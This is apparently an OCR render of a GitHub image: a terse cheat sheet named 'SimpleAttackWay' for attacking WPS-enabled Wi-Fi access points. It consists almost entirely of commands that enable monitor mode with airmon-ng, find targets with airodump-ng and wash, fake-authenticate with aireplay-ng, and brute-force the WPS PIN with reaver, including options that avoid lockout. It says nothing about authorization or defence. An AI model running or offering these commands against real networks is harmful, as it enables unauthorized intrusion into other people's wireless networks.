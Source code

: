 +
|Wireless Attack            
|		                        
|using the below tools      
| 			                    
+-----wash(or airodump-ng) 
|                 			    
+-----reaver		    

-==[SimpleAttackWay]==-

	sudo airmon-ng check kill

	sudo airmon-ng start <inter_face>

	sudo airodump-ng <inter_face>

	sudo wash -i <inter_face> 

	sudo reaver -i <inter_face> 

	sudo aireplay-ng --fakeauth 30 -a <BSSID> -h <MAC_ID> <inter_face>

	sudo reaver -i <inter_face> -b <BSSID> -c <Channels> -f -a -w -vv --no-associate

		or 

	sudo reaver -i <inter_face> -b <BSSID> -c <Channels> -d 30 -S -N -vv --no-associate



